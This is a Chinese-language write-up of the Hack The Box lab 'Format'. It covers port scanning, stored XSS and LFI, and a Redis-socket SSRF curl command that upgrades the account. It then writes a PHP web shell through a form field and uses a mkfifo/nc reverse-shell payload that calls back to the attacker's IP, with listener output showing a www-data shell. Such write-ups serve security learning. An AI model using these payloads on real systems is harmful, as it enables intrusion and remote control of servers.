

# Format

目标探测

Nmap扫描目标全端口的开放端口

```
┌──(root㉿kali)-[~/Desktop/TargetDrone/HTB/Format]
└─# nmap -n -v -sS -p- 10.10.11.213 --max-retries=0 -oN allport.txt -Pn
# Nmap 7.94 scan initiated Thu Aug 31 04:33:31 2023 as: nmap -n -v -sS -p- --max-retries=0 -oN allport.txt -Pn 10.10.11.213
Warning: 10.10.11.213 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.11.213
Host is up (0.45s latency).
Not shown: 37673 closed tcp ports (reset), 27859 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp

Read data files from: /usr/bin/../share/nmap
# Nmap done at Thu Aug 31 04:43:48 2023 -- 1 IP address (1 host up) scanned in 617.53 seconds
```

对这三个端口进行详细扫描

```
┌──(root㉿kali)-[~/Desktop/TargetDrone/HTB/Format]
└─# nmap -n -v -sC -sV -p $(cat allport.txt | grep ^[0-9]|cut -d / -f1|tr '\n' ','|sed s/,$//) 10.10.11.213 -oN nmap.txt -Pn
# Nmap 7.94 scan initiated Thu Aug 31 04:49:25 2023 as: nmap -n -v -sC -sV -p 22,80,3000 -oN nmap.txt -Pn 10.10.11.213
Nmap scan report for 10.10.11.213
Host is up (0.52s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c3:97:ce:83:7d:25:5d:5d:ed:b5:45:cd:f2:0b:05:4f (RSA)
|   256 b3:aa:30:35:2b:99:7d:20:fe:b6:75:88:40:a5:17:c1 (ECDSA)
|_  256 fa:b3:7d:6e:1a:bc:d1:4b:68:ed:d6:e8:97:67:27:d7 (ED25519)
80/tcp   open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD
3000/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://microblog.htb:3000/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 31 04:50:21 2023 -- 1 IP address (1 host up) scanned in 56.17 seconds
```

在端口 3000 上，它将我们重定向到microblog.htb域，因此我们将其添加到 /etc/hosts, 如果我们尝试通过端口 80 访问该网站，它会将我们重定向到app.microblog.htb子域，因此我们也添加它,我们访问主网站，在本例中是子域。

<figure><figcaption></figcaption></figure>

我们在网站上注册，创建一个子域并将其添加到/etc/hosts。

```
┌──(root㉿kali)-[~/Desktop/TargetDrone/HTB/Format]
└─# cat /etc/hosts                                                            
127.0.0.1       localhost
127.0.1.1       kali
10.10.11.213    app.microblog.htb
10.10.11.213    microblog.htb
10.10.11.213    myawesomeblog.microblog.htb
```

<figure><figcaption></figcaption></figure>

添加后，我们可以编辑子域，因此我们尝试创建 XSS。

<figure><figcaption></figcaption></figure>

我们可以看到，这是一个 XSS Stored

<figure><figcaption></figcaption></figure>

我们尝试从子域的 TXT 记录捕获请求并尝试执行 LFI，_id_字段容易受到 LFI 的攻击，我们发现了 2 个用户：**cooper**和**git**

<figure><figcaption></figcaption></figure>

我们通过端口3000访问网络，它是一个Gitea，用户**Cooper**有一个存储库。正如我们在图片中看到的，这些是网站文件和子域，因此我们查看代码以查找漏洞。

<figure><figcaption></figcaption></figure>

在第25行和第35行之间我们可以发现这部分代码非常有趣。我们可以看到，如果_isPro_条件为_True_，那么我们可以上传某种类型的文件，尽管它们可能只是图像。无论如何，我们必须成为_专业人士_才能将文件上传到网络。

```
function provisionProUser() {
    // 检查用户是否为专业用户
    if (isPro() === "true") {
        // 获取并清理博客名称
        $blogName = trim(urldecode(getBlogName()));

        // 为博客目录和其编辑子目录添加写权限
        system("chmod +w /var/www/microblog/" . $blogName);
        system("chmod +w /var/www/microblog/" . $blogName . "/edit");

        // 将bulletproof.php文件复制到博客的编辑子目录中
        system("cp /var/www/pro-files/bulletproof.php /var/www/microblog/" . $blogName . "/edit/");

        // 创建一个名为"uploads"的子目录，并设置其权限
        system("mkdir /var/www/microblog/" . $blogName . "/uploads && chmod 700 /var/www/microblog/" . $blogName . "/uploads");

        // 移除博客目录和编辑子目录的写权限
        system("chmod -w /var/www/microblog/" . $blogName . "/edit && chmod -w /var/www/microblog/" . $blogName);
    }
    return;
}

```

服务器通过 REDIS 工作，为了将我们的帐户转换为_Pro_，我们必须指向套接字并采用 HSET 格式。HSET 基本上你所做的就是更改指定字段的值。

如果您在注册时输入了任何其他用户名，请确保在 cmd 中更改该用户名，我使用 hyper，作为用户名，所以我使用了 hyper

```
┌──(root㉿kali)-[~/Desktop/TargetDrone/HTB/Format]
└─# curl -X HSET "http://microblog.htb/static/unix:%2Fvar%2Frun%2Fredis%2Fredis.sock:hyper%20pro%20true%20a/b"
```

一旦我们成为专业用户，我们就通过Burpsuite发送请求并 ping攻击者的机器，可以看到已经成为Pro

<figure><figcaption></figcaption></figure>

```
id=/var/www/microblog/hyper/uploads/test.php&txt=<%3fphp+echo+shell_exec("ping+-c+1+10.10.16.18")%3b%3f>
```

<figure><figcaption></figcaption></figure>

我们通过tun0接口监听 ICMP 跟踪。请求发送后，我们必须访问以下网站路线。

```
┌──(root㉿kali)-[~]
└─# sudo tcpdump -n -i tun0 icmp                                                                              
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

发送请求后，我们必须访问以下 Web 路径才能执行 PHP 代码。

<figure><figcaption></figcaption></figure>

如果一切正确，我们将收到受害计算机的 ICMP 跟踪，从而验证我们是否有能力执行命令。

```
┌──(root㉿kali)-[~]
└─# sudo tcpdump -n -i tun0 icmp                                                                              
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
03:35:47.512285 IP 10.10.11.213 > 10.10.16.18: ICMP echo request, id 2100, seq 1, length 64
03:35:47.512349 IP 10.10.16.18 > 10.10.11.213: ICMP echo reply, id 2100, seq 1, length 64
```

我们向攻击者机器发送一个反向 shell 。

```
id=/var/www/microblog/hyper/uploads/shell.php&txt=<%3fphp+echo+shell_exec("rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|sh+-i+2>%261|nc+10.10.16.18+4444+>/tmp/f")%3b%3f>
```

<figure><figcaption></figcaption></figure>

访问shell.php以执行shell.php

```
┌──(root㉿kali)-[~]
└─# nc -lnvp 4444                                                      
listening on [any] 4444 ...
connect to [10.10.16.18] from (UNKNOWN) [10.10.11.213] 49978
sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

如果我们运行 pspy 并看到一个有趣的 redis 进程。

```
$ ps -aux | grep redis
redis        601  0.1  0.3  65164 15232 ?        Ssl  14:30   0:17 /usr/bin/redis-server 127.0.0.1:0
```

对于用户，我们必须使用socks配置文件连接到redis-cli

```
```
